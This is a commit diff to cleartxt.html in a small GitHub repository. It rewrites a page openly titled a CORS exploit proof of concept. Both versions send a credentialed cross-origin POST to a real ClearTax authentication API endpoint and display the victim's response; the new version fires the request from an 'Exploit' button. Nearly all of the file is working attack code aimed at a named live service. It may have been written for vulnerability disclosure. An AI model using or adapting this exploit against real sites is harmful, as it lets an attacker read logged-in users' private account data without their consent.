

Before and after one commit to gcoen876/snikerdoodle, a plain HTML site: page cleartxt.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-819 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update cleartxt.html

```diff
--- a/cleartxt.html
+++ b/cleartxt.html
@@ -1,36 +1,26 @@
-<!DOCTYPE html>
 <html>
-<head>
-    <title>ClearTax CORS POC</title>
-</head>
-<body>
-    <h1>ClearTax CORS Exploit POC</h1>
-    <p>This page will send a request to ClearTax and show the response</p>
-    <div id="status">Loading...</div>
-
-    <script>
-        var req = new XMLHttpRequest();
-
-        req.onload = function() {
-            // Show the actual response in alert
-            alert("Response received:\n\n" + this.responseText);
-
-            // Also show on page
-            document.getElementById('status').innerHTML =
-                '<h2>Response:</h2>' +
-                '<pre>' + this.responseText + '</pre>';
-        };
-
-        req.onerror = function() {
-            alert("Request failed!");
-            document.getElementById('status').innerHTML = 'Request failed!';
-        };
-
-        // Send the exact request you showed
-        req.open('POST', 'https://app.mea.cleartax.com/api/kramer/v0/in-app-notification/action/authenticate', true);
-        req.withCredentials = true;
-        req.setRequestHeader('Content-Type', 'application/json');
-        req.send('{}');
-    </script>
-</body>
+    <head>
+        <script>
+            function cors() {
+                var xhttp = new XMLHttpRequest();
+                xhttp.onreadystatechange = function() {
+                    if (this.readyState == 4 && this.status == 200) {
+                        document.getElementById("demo").innerHTML = alert(this.responseText);
+                    }
+                };
+                xhttp.open('POST', "https://app.mea.cleartax.com/api/kramer/v0/in-app-notification/action/authenticate", true);
+                xhttp.withCredentials = true;
+                xhttp.setRequestHeader('Content-Type', 'application/json');
+                xhttp.send('{}');
+            }
+        </script>
+    </head>
+    <body>
+        <center>
+            <h2>[!] CORS PoC Exploit!!!</h2>
+            <div id="demo">
+                <button type="button" onclick="cors()">Exploit</button>
+            </div>
+        </center>
+    </body>
 </html>
```
